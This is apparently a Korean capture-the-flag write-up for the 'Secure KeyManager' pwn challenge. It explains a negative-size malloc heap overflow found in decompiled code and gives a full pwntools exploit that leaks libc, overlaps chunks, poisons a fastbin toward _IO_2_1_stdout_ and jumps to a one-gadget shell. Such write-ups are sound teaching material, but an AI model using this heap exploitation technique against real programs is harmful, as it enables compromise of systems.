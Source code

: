 Secure KeyManager 400 (Solver : 36)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE             |
|---------------|--------------|------------|--------|----------|------------|------------------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | Securekeymanager | 

x64 바이너리이다.

### 2. Vulnerability
```c
int add_key()
{
  int result; // eax
  __int64 v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+0h] [rbp-10h]
  unsigned int v3; // [rsp+4h] [rbp-Ch]
  char *v4; // [rsp+8h] [rbp-8h]

  LODWORD(v1) = 0;
  while ( v1 <= 7 && key_map[v1] )
    LODWORD(v1) = v1 + 1;
  if ( v1 > 7 )
    return puts("can't add key any more...");
  puts("ADD KEY");
  printf("Input key length...", v1);
  v3 = getint();
  v4 = malloc(v3 + 0x20LL); // v3 -> -32
  if ( !v4 )
    return puts("can not allocate...");
  printf("Input title...");
  getnline(v4, 32LL); // Heap Overflow!!
  printf("Input key...");
  getnline(v4 + 32, v3);
  key_list[v2] = v4;
  result = v2;
  key_map[v2] = 1;
  return result;
}
```
malloc을 할때 일부로 0바이트를 할당하도록 유도한다음, heap overflow를 내면 다음 청크의 사이즈까지 덮을 수 있다.

### 3. Exploit

Size 조작이 가능하므로 0x70 Chunk를 이용하여 Chunk Overlap을 낸다음 fastbin의 fd를 overwrite하여 exploit 하면 된다. (Edit 에서 32보다 더 큰값을 쓸 수 있는것을 이용)

```python
from ntpwn import *

#s = process('./secu', LIBC('./libc-2.23.so'))
l = ELF('./libc-2.23.so')
s = remote('secure_keymanager.pwn.seccon.jp',47225)
'''
b = BP(s)
b.bp('tracemalloc on')
b.bp('c')
b.done()
'''

def add(key_len, title, key):
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',key_len)
	s.sendafter('...',title)
	s.sendlineafter('...',key)

def negative_add(key_len, title):
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',key_len)
	s.sendafter('...',title)

def remove(target):
	s.sendlineafter('>> ','4')
	s.sendlineafter('>> ','A')
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',target)

def edit(target,context):
	s.sendlineafter('>> ','3')
	s.sendlineafter('>> ','A')
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',target)
	s.sendlineafter('...',context)

prompt = '>> '

pause()

s.sendlineafter(prompt,'A')
s.sendlineafter(prompt,'1')

s.sendlineafter(prompt,'9')
s.sendlineafter(prompt,'A' * 24)

s.recv(33)
libc_base = u64(s.recv(6) + '\x00' * 2) - 0x3c560a
oneshot = libc_base +0x4526a

log.info('LIBC_BASE : ' + hex(libc_base))
log.info('ONESHOT : ' + hex(oneshot))

negative_add('-32','A')
add(str(0x68-32),'A' * 0x10 ,'1')
add(str(0x68-32),'A' * 0x10 ,'1')
add(str(0x68-32),'A' * 0x10 ,'1')
remove('0')
negative_add('-32',"A" * 0x18 + p64(0xe1)[:-1])
remove('1')
remove('2')
add(str(0xd8-32),'A' * 0x10 ,'1')
edit('1','B' * 0x48 + p64(0x70) + p64(libc_base + l.symbols['_IO_2_1_stdout_'] + 0x9d))

add(str(0x68-32),'A' * 0x10 ,'1')

payload = '\x00' * 0x2a + p64(libc_base + l.symbols['_IO_2_1_stdout_'] + 0xc0)
payload += p64(libc_base + l.symbols['_IO_2_1_stdout_'])
payload += p64(oneshot) * 5

pause()
negative_add(str(0x68-32), payload)

s.interactive()

s.sendlineafter('>> ','1')
s.sendlineafter('...','A')


s.interactive()
```
### 4. Flag
<img width="" height=""> ![ex_screenshot](./flag/flag1.png) </img>

